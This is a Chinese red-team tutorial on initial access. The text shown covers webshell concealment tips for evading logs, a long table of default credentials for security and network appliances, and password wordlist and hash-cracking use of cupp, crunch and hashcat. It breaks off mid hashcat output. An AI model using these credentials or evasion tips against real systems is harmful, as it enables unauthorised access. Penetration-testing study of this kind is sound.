# [Red Team: Initial Access](https://www.raingray.com/archives/4386.html)

获取入口，拿 Shell，就是拿下据点（Foothold）。

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [1 获取入口](#1+%E8%8E%B7%E5%8F%96%E5%85%A5%E5%8F%A3)
    -   [1.1 应用](#1.1+%E5%BA%94%E7%94%A8)
        -   [1.1.1 开源应用](#1.1.1+%E5%BC%80%E6%BA%90%E5%BA%94%E7%94%A8)
        -   [1.1.2 集成环境](#1.1.2+%E9%9B%86%E6%88%90%E7%8E%AF%E5%A2%83)
    -   [1.2 密码（Password）](#1.2+%E5%AF%86%E7%A0%81%EF%BC%88Password%EF%BC%89)
        -   [1.2.1 密码猜解（Password Guessing）](#1.2.1+%E5%AF%86%E7%A0%81%E7%8C%9C%E8%A7%A3%EF%BC%88Password+Guessing%EF%BC%89)
            -   [弱口令（Weak Password）](#%E5%BC%B1%E5%8F%A3%E4%BB%A4%EF%BC%88Weak+Password%EF%BC%89)
            -   [Wordlists](#Wordlists)
                -   [密码规律](#%E5%AF%86%E7%A0%81%E8%A7%84%E5%BE%8B)
                -   [账户命名规律](#%E8%B4%A6%E6%88%B7%E5%91%BD%E5%90%8D%E8%A7%84%E5%BE%8B)
                -   [cupp](#cupp)
                -   [crunch](#crunch)
            -   [密文识别与破解](#%E5%AF%86%E6%96%87%E8%AF%86%E5%88%AB%E4%B8%8E%E7%A0%B4%E8%A7%A3)
                -   [hashcat](#hashcat)
                -   [John the Ripper](#John+the+Ripper)
        -   [1.2.2 密码喷洒（Password Spraying）⚒️](#1.2.2+%E5%AF%86%E7%A0%81%E5%96%B7%E6%B4%92%EF%BC%88Password+Spraying%EF%BC%89%E2%9A%92%EF%B8%8F)
            -   [Exchange](#Exchange)
            -   [Office 365](#Office+365)
    -   [1.3 近源渗透⚒️](#1.3+%E8%BF%91%E6%BA%90%E6%B8%97%E9%80%8F%E2%9A%92%EF%B8%8F)
        -   [1.3.1 Wi-Fi](#1.3.1+Wi-Fi)
        -   [1.3.2 网线](#1.3.2+%E7%BD%91%E7%BA%BF)
        -   [1.3.3 Bad USB](#1.3.3+Bad+USB)
    -   [1.4 社会工程学（Social Engineering）](#1.4+%E7%A4%BE%E4%BC%9A%E5%B7%A5%E7%A8%8B%E5%AD%A6%EF%BC%88Social+Engineering%EF%BC%89)
    -   [1.5 钓鱼（Phishing）⚒️](#1.5+%E9%92%93%E9%B1%BC%EF%BC%88Phishing%EF%BC%89%E2%9A%92%EF%B8%8F)
        -   [1.5.1 钓鱼手段](#1.5.1+%E9%92%93%E9%B1%BC%E6%89%8B%E6%AE%B5)
            -   [鱼叉式钓鱼附件（Spear Phishing Attachments）](#%E9%B1%BC%E5%8F%89%E5%BC%8F%E9%92%93%E9%B1%BC%E9%99%84%E4%BB%B6%EF%BC%88Spear+Phishing+Attachments%EF%BC%89)
            -   [鱼叉式钓鱼链接（Spear Phishing Links）](#%E9%B1%BC%E5%8F%89%E5%BC%8F%E9%92%93%E9%B1%BC%E9%93%BE%E6%8E%A5%EF%BC%88Spear+Phishing+Links%EF%BC%89)
        -   [1.5.2 投递渠道](#1.5.2+%E6%8A%95%E9%80%92%E6%B8%A0%E9%81%93)
            -   [钓鱼邮件](#%E9%92%93%E9%B1%BC%E9%82%AE%E4%BB%B6)
            -   [钓鱼短信](#%E9%92%93%E9%B1%BC%E7%9F%AD%E4%BF%A1)
            -   [钓鱼站点](#%E9%92%93%E9%B1%BC%E7%AB%99%E7%82%B9)
            -   [社交网络](#%E7%A4%BE%E4%BA%A4%E7%BD%91%E7%BB%9C)
-   [2 反弹 Shell](#2+%E5%8F%8D%E5%BC%B9+Shell)
    -   [2.1 Windows](#2.1+Windows)
        -   [2.1.1 Netcat⚒️](#2.1.1+Netcat%E2%9A%92%EF%B8%8F)
        -   [2.1.2 HTA](#2.1.2+HTA)
        -   [2.1.3 Rundll32](#2.1.3+Rundll32)
        -   [2.1.4 Regsvr32](#2.1.4+Regsvr32)
        -   [2.1.5 Certutil](#2.1.5+Certutil)
        -   [2.1.6 Powershell](#2.1.6+Powershell)
        -   [2.1.7 msiexec](#2.1.7+msiexec)
        -   [2.1.8 exe 可执行文件](#2.1.8+exe+%E5%8F%AF%E6%89%A7%E8%A1%8C%E6%96%87%E4%BB%B6)
    -   [2.2 Linux](#2.2+Linux)
        -   [2.2.1 Bash](#2.2.1+Bash)
        -   [2.2.2 Netcat](#2.2.2+Netcat)
        -   [2.2.3 Python](#2.2.3+Python)
        -   [2.2.4 PHP⚒️](#2.2.4+PHP%E2%9A%92%EF%B8%8F)
        -   [2.2.5 Ruby⚒️](#2.2.5+Ruby%E2%9A%92%EF%B8%8F)
        -   [2.2.6 Perl⚒️](#2.2.6+Perl%E2%9A%92%EF%B8%8F)
        -   [2.2.7 OpenSSL⚒️](#2.2.7+OpenSSL%E2%9A%92%EF%B8%8F)
        -   [2.2.8 Telnet⚒️](#2.2.8+Telnet%E2%9A%92%EF%B8%8F)
        -   [2.2.9 git hooks⚒️](#2.2.9+git+hooks%E2%9A%92%EF%B8%8F)
-   [3 建立隧道⚒️](#3+%E5%BB%BA%E7%AB%8B%E9%9A%A7%E9%81%93%E2%9A%92%EF%B8%8F)
    -   [3.1.1 SOCKS](#3.1.1+SOCKS)
        -   [Stowaway](#Stowaway)
        -   [rakshasa](#rakshasa)
        -   [venom](#venom)
        -   [frp](#frp)
        -   [chisel](#chisel)
        -   [nps](#nps)
    -   [3.1.2 VPN](#3.1.2+VPN)
    -   [3.1.3 HTTP](#3.1.3+HTTP)
        -   [Neo-reGeorg](#Neo-reGeorg)
    -   [3.1.4 WebSocket](#3.1.4+WebSocket)
    -   [3.1.5 ICMP](#3.1.5+ICMP)
    -   [3.1.6 DNS](#3.1.6+DNS)
    -   [3.1.7 SSH](#3.1.7+SSH)
        -   [本地端口转发](#%E6%9C%AC%E5%9C%B0%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)
        -   [远程端口转发](#%E8%BF%9C%E7%A8%8B%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)
        -   [动态端口转发](#%E5%8A%A8%E6%80%81%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)
        -   [netsh](#netsh)
-   [4 文件传输](#4+%E6%96%87%E4%BB%B6%E4%BC%A0%E8%BE%93)
    -   [4.1 FTP](#4.1+FTP)
    -   [4.2 SFTP⚒️](#4.2+SFTP%E2%9A%92%EF%B8%8F)
    -   [4.3 Bitsadmin](#4.3+Bitsadmin)
    -   [4.4 Certutil](#4.4+Certutil)
    -   [4.5 PowerShell](#4.5+PowerShell)
    -   [4.6 SCP⚒️](#4.6+SCP%E2%9A%92%EF%B8%8F)
    -   [4.7 WSH](#4.7+WSH)
    -   [4.8 Wget](#4.8+Wget)
    -   [4.9 Curl](#4.9+Curl)
    -   [4.10 NC](#4.10+NC)
    -   [4.11 Git](#4.11+Git)
    -   [4.12 SMB](#4.12+SMB)
        -   [4.12.1 Windows File Sharing](#4.12.1+Windows+File+Sharing)
        -   [4.12.2 Samba](#4.12.2+Samba)
        -   [4.12.3 Impacket-smbserver](#4.12.3+Impacket-smbserver)
    -   [4.13 PHP](#4.13+PHP)
    -   [4.14 Python](#4.14+Python)
    -   [4.15 Ruby](#4.15+Ruby)
    -   [4.16 Perl](#4.16+Perl)
-   [参考资料](#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99)

## 1 获取入口

### 1.1 应用

能够拿权限的漏洞：

-   SQL Injection
-   RCE
    -   反序列化
    -   代码执行
    -   命令执行
-   文件上传
-   弱口令

以及打现有 NDay。

*OPSEC：有了 RCE 权限写 WebShell 时，需要注意文件名要取的跟正常名称类似，放在与正常被请求的脚本目录中，不要放在其他目录内扎眼。请求方法不要使用 GET 传输数据，因为 Web 日志记录会记录请求行，在没有流量或日志审计设备，使用 POST 传输可以增加隐蔽性，对方顶多只能从请求时间、请求文件名、请求频率来判断是不是恶意脚本。*

#### 1.1.1 开源应用

> 本小节里面内容将写出一系列文章，将其贴入即可。如 Struts2
> 
> Struts2：
> 
> -   \[CVEXXXX-XXXX 分析\]()
> -   ......

Struts2  
Log4j  
Shiro  
fastjson  
ThinkPHP  
ElasticSearch  
Dedecms  
PHPCMS  
ECshop  
Metinfo  
Discuz  
帝国CMS  
phpMyAdmin  
WordPress  
Joomla  
Drupal  
ActiveMQ  
Solr  
RabbitMQ  
ZooKeeper  
Typecho  
SiteServer  
禅道  
通达 OA

**WebServer**

WebLogic  
Jboss  
WildFly（前身叫 Jboss）  
Tomcat  
IBM WebSphere  
Axis2  
GlassFish  
IIS  
Jekins

#### 1.1.2 集成环境

一般偷懒或者不会搭建环境的人使用，没有权限意识则的会用管理员运行权限启动，如 Administrator 或 ROOT。

常见环境有：

-   宝塔
-   PHPStudy
-   AppServ
-   Xampp

### 1.2 密码（Password）

#### 1.2.1 密码猜解（Password Guessing）

也有叫 Brute Force，都一个意思，不断尝试猜测目标系统账户去登录。

*OPSEC：登录失败产生日志记录，达到一定次数部分 Web 系统可能自动锁定账户，或者发送短信告警。*

##### 弱口令（Weak Password）

先谈弱口令，通常弱口令位数较短，有重复。可以说大多数人都知道的密码就是弱口令。

比如常见产品的默认账户，网上泄露的密码。这里搜集了部分国内流传的产品账户供你参考。

| 产品名称 | 账号  | 密码  |
| --- | --- | --- |
| vCenter/ESXi | administrator@vsphere.local |     |
|     | root |     |
| 深信服负载均衡AD 3.6 | admin | admin |
| 深信服 WAC ( WNS V2.6) | admin | admin |
| 深信服 VPN | Admin | Admin |
| 深信服 ipsec-VPN (SSL 5.5) | Admin | Admin |
| 深信服 AC6.0 | admin | admin |
| SANGFOR 防火墙 | admin | sangfor |
| 深信服 AF(NGAF V2.2) | admin | sangfor |
| 深信服 NGAF 下一代应用防火墙(NGAF V4.3) | admin | admin |
| 深信服 AD3.9 | admin | admin |
| 深信服上网行为管理设备数据中心 | Admin | 密码为空 |
| 深信服科技 AD dlanrecover | sangfor | sangfor@2018 |
|     | sangfor | sangfor@2019 |
|     | sangfor | sangfor |
| 深信服产品/AD | sangfor | dlanrecover |
| SANGFOR\_AD\_v5.1 | admin | admin |
| 联想网御 | administrator | administrator |
| 网御漏洞扫描系统 | leadsec | leadsec |
| 网御事件服务器 | admin | admin123 |
| 联想网御防火墙 PowerV | administrator | administrator |
| 联想网御防火墙 | admin | leadsec@7766 |
|     |     | administrator |
|     |     | bane@7766 |
| 联想网御入侵检测系统 | lenovo | default |
| 网络卫士入侵检测系统 | admin | talent |
| 科来网络回溯分析系统 | csadmin | colasoft |
| 中控考勤机 web3.0 | administrator | 123456 |
| 金蝶默认口令(很老了) | kingdee | kingdee123! |
| H3C iMC | admin | admin |
| H3C SecPath 系列 | admin | admin |
| H3C S5120-SI | test | 123 |
| H3C 智能管理中心 | admin | admin |
| H3C ER3100 | admin | adminer3100 |
| H3C ER3200 | admin | adminer3200 |
| H3C ER3260 | admin | admin3260 |
| 方正防火墙 | admin | admin |
| 飞塔防火墙 | admin | 密码为空 |
| Juniper\_SSG\_\_5 防火墙 | netscreen | netscreen |
| 中新金盾硬件防火墙 | admin | 123 |
| kill 防火墙(冠群金辰) | admin | sys123 |
| 阿姆瑞特防火墙 | admin | manager |
| 山石网科 | hillstone | hillstone |
| 绿盟产品 | nsfocus | 123 或是 nsfocus123 |
|     | supervis | shell |
|     | admin | weboper |
|     | auditor | webaudit |
|     | conadmin | admin |
|     | shell | conadmin |
|     | weboper | supervisor |
|     | webaudit | sysadmin |
|     | supervisor | auditor |
|     | sysadmin | sysmanager |
|     | sysmanager | sysadmin |
|     | sysauditor | sysauditor |
|     | maintainer | nsfocus |
|     | nsadmin | maintainer |
|     | webpolicy | nsadmin |
|     |     | webpolicy |
| 绿盟安全审计系统 | weboper | weboper |
|     | webaudit | webaudit |
|     | conadmin | conadmin |
|     | admin | admin |
|     | shell | shell |
| TopAudit 日志审计系统 | superman | talent |
| LogBase 日志管理综合审计系统 | admin | safetybase |
| 网神 SecFox 运维安全管理与审计系统 | admin | !1fw@2soc#3vpn |
| Hillstone 安全审计平台 | hillstone | hillstone |
| 网康日志中心 | ns25000 | ns25000 |
| 网络安全审计系统（中科新业） | admin | 123456 |
| 天玥网络安全审计系统 | Admin | cyberaudit |
| 明御攻防实验室平台 | root | 123456 |
| 明御安全网关 | admin | adminadmin |
| 明御网站卫士 | sysmanager | sysmanager888 |
| 明御 WEB 应用防火墙 | admin | admin |
|     | admin | adminadmin |
| 明御运维审计与册风险控制系统 | admin | 1q2w3e |
|     | system | 1q2w3e4r |
|     | auditor | 1q2w3e4r |
|     | operator | 1q2w3e4r |
| 360 天擎 | admin | admin |
| 网神防火墙 | firewall | firewall |
| 天融信防火墙 NGFW4000 | superman | talent |
|     |     | talent!23 |
| 天融信数据库审计系统 | superman | telent |
| Cisco 设备 | cisco | cisco |
|     |     | admin |
|     | admin | cisco |
|     | cisco | cisco123 |
| 天阗入侵检测与管理系统 V7.0 | Admin | venus70 |
|     | Audit | venus70 |
|     | adm | venus70 |
| 天阗入侵检测与管理系统 V6.0 | Admin | venus60 |
|     | Audit | venus60 |
|     | adm | venus60 |
| 网御 WAF 集中控制中心(V3.0R5.0) | admin | leadsec.waf |
|     | audit | leadsec.waf |
|     | adm | leadsec.waf |

测试成功后注意事项：

1.  不要乱浏览数据
2.  不要下载数据
3.  不要删除数据
4.  不要挂代理测试

Web 方面使用 Intruder 爆破。

弱口令爆破思路：

1.  有默认密码尝试默认密码
2.  后台就使用管理员字典，前台就用用户字典。
3.  先使用低线程跑如果服务器处理速度快可以加高每秒请求数量，避免把服务器资源耗尽无法服务。
4.  确认用户密码强度，缩小用户名范围。

除了 Web 应用弱口令也需要关注其他服务，如：

-   Database：MySQL、SQL Server、DB2、Mongo DB、Oracle、PostgreSQL、SQLServer
-   Server Management：RDP、SSH
-   FTP
-   POP3
-   SMB

这些服务使用 [Hydra](https://github.com/vanhauser-thc/thc-hydra) 可以完成弱口令测试。

**Hydra**

演示 MySQL、RDP、SSH、FTP、SMB 服务弱口令测试。

##### Wordlists

光知道使用现成的字典去爆破成功率会低，最好根据目标已有密码或账户规则进行定制生成。

###### 密码规律

中国密码常见规律，使用工具生成。

账户名@公司字母简称

-   wangxiang@jy

账户名@常见弱口令

-   wangxiang@1234

账户名.常见弱口令

-   wangxiang.1234

账户名.公司字母简称

-   wangxiang.jy

公司简称加常见弱口令

-   JY1234.com
-   JY888888
-   JY666666
-   JY@1234.com

密码与账户相同

-   wangxiang

常见弱口令。

```plaintext
123.com
pass1234
admin
admin234
000000
12345678
123456789
1234.com
12345.com
123456.com
Abc12345
123456
1qaz!QAZ
123457
12345678a
qwer1234
888888
999999
password
Abc12345
```

###### 账户命名规律

关于规律在 Recon 阶段从社工库或者收集到的邮箱观察就会得知。

姓名全拼（也有可能是花名）

-   liangshuo, 梁硕

姓名全拼首字母大写

-   Liangshuo, 梁硕

姓全拼名简拼

-   xuyh, 许玉辉

姓全称\_名简称

-   zhang\_ran, 张然

重复的可能会在后面加数字

-   zhang\_ran1, 张然

有的公司会有外包，账户前缀加 e（external）

-   eliangshuo
-   ezhangr

掌握了规律后使用 [cupp](https://github.com/Mebus/cupp) 和 [crunch](https://sourceforge.net/projects/crunch-wordlist)、[John the Ripper](https://github.com/openwall/john) 生成字符。或者根据目标账户、密码规律进行自定义排列组合定制生成字典。

###### cupp

cupp 是一个交互式工具，你输入个人信息，它针对这些内容给你生成字典。

这个工具只需要使用 -i 和 -q 即可，-i 是交互式生成字典，-q 是 quiet 模式禁止运行工具时打印横幅。所以本质上只需要使用 -i 即可。

```plaintext
PS C:\Users\gbb\Desktop\cupp> python cupp.py -iq

[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: 学书
> Surname: 吴
> Nickname: Mr. Wu
> Birthdate (DDMMYYYY): 03081993


> Partners) name: 王二永
> Partners) nickname: Mr.Wang
> Partners) birthdate (DDMMYYYY): 09061979


> Child's name: 吴成谦
> Child's nickname: Honey
> Child's birthdate (DDMMYYYY): 07152000


> Pet's name: Bomom
> Company name: 北京汽车集团有限公司


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: 父亲,儿子,安全工程师
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to 学书.txt, counting 126395 words.
> Hyperspeed Print? (Y/n) :
[+] Now load your pistolero with 学书.txt and shoot! Good luck!
```

基本问了四部分信息，受害人、受害人伴侣、受害人孩子以及宠物信息，如果没有这部分信息直接回车跳过即可。

得出的字典存在空行，不方便，使用正则 `^\s*(?=\r?$)\n` 搜索并替换为空，如果字典带有中文需要使用 GB2312 编码重新打开防止乱码。

```plaintext
谦成吴_51500

谦成吴_515000

谦成吴_51507

谦成吴_5152000

谦成吴_5157
```

###### crunch

```plaintext
crunch <min-len> <max-len> [<charset string>] [options]
```

语法很简单生成字符 `<min-len>` 最小长度，`<max-len>` 生成字符最大长度。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 1 1                                       
Crunch will now generate the following amount of data: 52 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 26 
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
```

这里指定字符长度为 1，表明要获取长度为一的字符，默认从 a-z 里面取。

`[<charset string>]` 是指定字符集，所有的生成字符从里面取。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 1 1 "ac d"                             
Crunch will now generate the following amount of data: 8 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4 
a
c

d
```

穷尽指定的字符 `ac d` 后，总共四行。

要是觉得手动设置字符集很麻烦，你也可以用工具自带的字符集 charset.lst（源码包中自带，Kali 中位于 /usr/share/crunch/charset.lst）。

```plaintext
# charset configuration file for winrtgen v1.2 by Massimiliano Montoro (mao@oxid.it)
# compatible with rainbowcrack 1.1 and later by Zhu Shuanglei <shuanglei@hotmail.com>


hex-lower                     = [0123456789abcdef]
hex-upper                     = [0123456789ABCDEF]

numeric                       = [0123456789]
numeric-space                 = [0123456789 ]

symbols14                     = [!@#$%^&*()-_+=]
symbols14-space               = [!@#$%^&*()-_+= ]

symbols-all                   = [!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
symbols-all-space             = [!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/ ]
```

或者参考官方字符集格式，创建一个自己的字符集。

```plaintext
lowerCaseCharacter            = [a]
upperCaseCharacter            = [ABC]
digitalCharacter              = [123]
......
```

使用 `-f <charset file> <charset name>` 指定就好。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 1 1 -f ./charset.lst digitalCharacter
Crunch will now generate the following amount of data: 6 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 3 
1
2
3
```

还有个 -t 选项很好用，跟 JS 模板字符串或 Python 字符串格式化一样，可以将指定字符自动替换为其他值。-t 选项有几个值：

-   `@`，小写字符
-   `,`，大写字符
-   `%`，数字
-   `^`，特殊字符

此案例从官方手册中 Example 13 改变而来。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 3 3 a ABC 123 + -t "@,%" -o genDict.txt
Crunch will now generate the following amount of data: 36 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 9 

crunch: 100% completed generating output

┌──(kali㉿kali)-[~/Desktop]
└─$ cat genDict.txt                               
aA1
aA2
aA3
aB1
aB2
aB3
aC1
aC2
aC3
```

这条命令参数太多，分为三部分来看。

`3 3`，生成三个字符。

`a ABC 123 +`，则是字符集，奇怪了字符集为啥是空格隔开？这是官方建议字符集顺序按照小写字符 -> 大写字符 -> 数字 -> 符号顺序填写，如果其中部分不使用，用加号占位即可。

`-t "@,%"`，是将这三个字符第一位设置为小写，因为指定了字符集所以取字符集中指定的字符 a，没有指定字符集就默认取 a-z。第二位设置为大写字符，因为字符指定了 ABC 则使用字符集设定范围内字符。数字部分也是如此。

这个模式有个缺陷，当你使用了 -t 中 value 关键字时不能转义，比如此时我搜到一个邮箱账户 add@qq.com，想枚举邮箱所有 3 个小写字母的用户名。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 10 10 -t @@@@qq.com -o tet  
Crunch will now generate the following amount of data: 5026736 bytes
4 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 456976 

crunch: 100% completed generating output

┌──(kali㉿kali)-[~/Desktop]
└─$ head -n 5 tet
aaaaqq.com
aaabqq.com
aaacqq.com
aaadqq.com
aaaeqq.com
```

直接把 @ 当作小写处理，明显不符合我们需求。

那使用转义符行不行呢？

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 11 11 -t "@@@\@qq.com" -o tet                                                                                                                                                1 ⨯
Crunch will now generate the following amount of data: 5483712 bytes
5 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 456976 

crunch: 100% completed generating output

┌──(kali㉿kali)-[~/Desktop]
└─$ head tet     
aaa\aqq.com
aaa\bqq.com
aaa\cqq.com
aaa\dqq.com
aaa\eqq.com
aaa\fqq.com
aaa\gqq.com
aaa\hqq.com
aaa\iqq.com
aaa\jqq.com
```

使用 \\ 只会把 \\ 当作普通字符插入，@ 丝毫不影响还是小写字符。

由此只能换个思路，既然 -t 可以使用我们指定的字符集，那么我将 @ 作为字符集，-t 届时自动替换我们指定的字符集 @。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crunch 10 10 + + @ + -t "@@@%qq.com" -o tet
Crunch will now generate the following amount of data: 193336 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 17576 

crunch: 100% completed generating output

┌──(kali㉿kali)-[~/Desktop]
└─$ head tet
aaa@qq.com
aab@qq.com
aac@qq.com
aad@qq.com
aae@qq.com
aaf@qq.com
aag@qq.com
aah@qq.com
aai@qq.com
aaj@qq.com
```

可以看到 % 原意替换为数字，这里我们将数字的字符集指定为 @，在实际替换中程序直接把 @ 作为数字替换。

##### 密文识别与破解

很多时候字典有了，但是对方的密码加密，或者系统登录要求密文，又分辨不出是什么类型编码、加密、哈希。

工具从旧到新排列。

-   [https://github.com/psypanda/hashID](https://github.com/psypanda/hashID)
-   [https://github.com/blackploit/hash-identifier](https://github.com/blackploit/hash-identifier)
-   [https://github.com/HashPals/Name-That-Hash](https://github.com/HashPals/Name-That-Hash)
-   [https://github.com/Ciphey/Ciphey](https://github.com/Ciphey/Ciphey)

哈希识别只推荐 [Name That Hash](https://nth.skerritt.blog/)，分命令行版本和 Web 版。其准确性不用太在乎，估计就是根据输出数据定长位数判定类型。试了试商密 SM3，给识别成 SHA-256。



Most Likely 就是工具认为最可能的 Hash 类型，优先级从前到后排列。

而 Ciphey 都能[支持的加密](https://github.com/Ciphey/Ciphey/wiki/Supported-Ciphers)较多些，都是些编码和古典密码。但我测试了 Gzip + Base64 和仅 Base32 的编码数据，没有一个解出来，Base32 倒是出了些结果每次都问你，看这个明文数据对吗？一直问一直问，可见准确性一般。

通常知道密文后会直接扔 [cmd5](https://www.cmd5.com/) 自动分析类型查询明文，一般用不到 hashcat 本地计算明文，基本上算不出来，但是还是要了解 hahscat 基本使用方法。

###### hashcat

Usage: hashcat \[options\]... hash|hashfile|hccapxfile \[dictionary|mask|directory\]...

用法很简单就是 hashcat 哈希 \[字典\]

\-a --attack-mode

> ```plaintext
> - [ Attack Modes ] -
> 
>   # | Mode
>  ===+======
>   0 | Straight
>   1 | Combination
>   3 | Brute-force
>   6 | Hybrid Wordlist + Mask
>   7 | Hybrid Mask + Wordlist
>   9 | Association
> ```

\-m --hash-type，--help 查 Hash modes 表可以得到 -m 所有参数，这里列出常见值

\--show 显示原始密文、哈希与明文放在一起比较 raw:painText，比如：

```plaintext
e48e13207341b6bffb7fb1622282247b:1337
```

TryHackme Task5 官方示例

1.使用字典爆破 SHA1 哈希

```plaintext
hashcat -a 0 -m 100 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt
```

通过 `Status...........: Cracked` 能确认已经破解成功，而且把对应哈希和名称以冒号做分隔展示 `8d6e34f987851aa599257d3831a1af040886842f:sunshine`。

```plaintext

┌──(kali㉿kali)-[~/Desktop]
└─$ sudo hashcat -a 0 -m 100 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt       
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 9.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 4800H with Radeon Graphics, 5836/5900 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Initializing backend runtime for device #1...

Host memory required for this attack: 65 MB


Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

8d6e34f987851aa599257d3831a1af040886842f:sunshine

Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 8d6e34f987851aa599257d3831a1af040886842f
Time.Started.....: Mon Jan 30 03:27:13 2023 (0 secs)
Time.Estimated...: Mon Jan 30 03:27:13 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    95002 H/s (0.23ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> oooooo

Started: Mon Jan 30 03:26:45 2023
Stopped: Mon Jan 30 03:27:15 2023
```

2.使用本机计算能力爆破 4 位数 MD5

```plaintext
hashcat -a 3 -m 0 e48e13207341b6bffb7fb1622282247b ?d?d?d?d
```

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -a 3 -m 0 e48e13207341b6bffb7fb1622282247b ?d?d?d?d       
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 9.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 4800H with Radeon Graphics, 5836/5900 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

e48e13207341b6bffb7fb1622282247b:1337            

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: e48e13207341b6bffb7fb1622282247b
Time.Started.....: Mon Jan 30 03:12:50 2023 (0 secs)
Time.Estimated...: Mon Jan 30 03:12:50 2023 (0 secs)
Guess.Mask.......: ?d?d?d?d [4]
Guess.Queue......: 1/1 (100.00%)
